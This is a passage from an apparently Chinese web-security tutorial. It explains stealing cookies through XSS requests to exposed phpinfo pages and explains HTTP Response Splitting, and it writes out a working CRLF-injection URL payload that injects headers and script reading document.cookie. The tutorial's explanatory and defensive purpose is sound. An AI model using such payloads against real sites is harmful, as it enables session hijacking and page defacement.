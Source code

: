 利用php开发应用会有一个phpinfo页面，这个页面会dump出请求信息，其中就包括Cookie信息。如下图所示的`_SERVER["HTTP_COOKIE"]`变量。

![phpinfo页面][2]

如果开发者没有关闭这个页面，就可以利用XSS漏洞向这个页面发起异步请求，获取到页面内容后parse出Cookie信息，然后上传给攻击者。

phpinfo是比较常见的一种dump请求的页面，但不限于此，为了调试方便，任何dump请求的页面都是可以被利用的漏洞。

**防御方法**

关闭所有phpinfo类dump request信息的页面。

### 3) HTTP Response Splitting

**攻击方法**

通常的XSS攻击都是把输入内容注入到response的content中，HTTP Response Splitting是一种针对header的注入。

例如，一个站点接受参数做302跳转：
```js
www.example.com/?r=http://baidu.com
```

request信息为：
```js
GET /example.com?r=http://baidu.com\r\n
HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

response为：
```js
HTTP/1.1 302 Found\r\n
Location: http://baidu.com\r\n
Content-Type: text/html\r\n
\r\n
```

这样页面就302跳转到了百度了。攻击者利用r参数可以注入header，r参数不是简单的url，而是包含\r\n的header信息：
```js
http://example.com/?r=%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aX-XSS-Protection:%200%0d%0a%0d%0a%3Chtml%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E%3Ch1%3EDefaced!%3C/h1%3E%3C/html%3E
```

这样，response就变成了：
```js
HTTP/1.1 302 Found\r\n
Location: \r\n
HTTP/1.1 200 OK\r\n
Content-Type: text/html\r\n
X-XSS-Protection: 0\r\n

<html><script>alert(document.cookie)</script><h1>Defaced!</h1></html>
Content-Type: text/html\r\n
\r\n
```


  [1]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000000_post_session_hijacking.webp "Cookie劫持示意图"
  [2]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000100_phpinfo.webp "phpinfo页面"
  [3]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000200_Wireshark.webp "Wireshark抓取Cookie信息"
  [4]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000300_加载Cookie.webp "Firefox中粘贴从Wireshark抓取的Cookie值"
  [5]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000400_成功登陆.webp "利用Cookie登录他人百度网盘"